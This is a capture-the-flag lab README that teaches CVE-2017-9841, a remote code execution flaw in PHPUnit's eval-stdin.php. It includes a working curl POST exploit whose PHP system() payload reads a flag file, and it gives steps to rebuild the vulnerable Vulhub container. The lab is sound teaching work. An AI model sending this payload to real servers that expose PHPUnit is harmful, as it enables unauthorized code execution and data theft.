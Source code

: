 # Challenge 6: PHPUnit

## How to Start
```bash
docker compose pull
docker compose up
```

---

## Description
This challenge teaches the user about **CVE-2017-9841**, a vulnerability in PHPUnit that allows **Remote Code Execution (RCE)**.

---

## Solution
1. Use the terminal to locate the vulnerable `eval-stdin.php` file.
2. Exploit it using a `POST` request with a malicious PHP payload.
3. Example command to retrieve the flag:
   ```bash
   curl -s -X POST http://localhost:8050/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php    -d "<?php system('cat /var/www/html/flag.txt'); ?>"
   ```

**Flag:**
```
flag{phpunit_pwned_rce}
```

---

## How to Recreate

### 1. Clone Vulhub Repository
```bash
git clone https://github.com/vulhub/vulhub
```

### 2. Navigate to PHPUnit CVE Directory
```bash
cd vulhub/phpunit/CVE-2017-9841
```

### 3. Build and Start Containers
```bash
docker-compose up -d
```

### 4. Create the Flag
```bash
docker exec phpunit_web_1 sh -c "echo 'FLAG{phpunit_pwned_rce}' > /var/www/html/flag.txt"
```

---

## Final Notes
This challenge demonstrates how outdated development dependencies can be exploited for remote code execution.  
Always ensure unused packages like PHPUnit are not exposed in production environments.
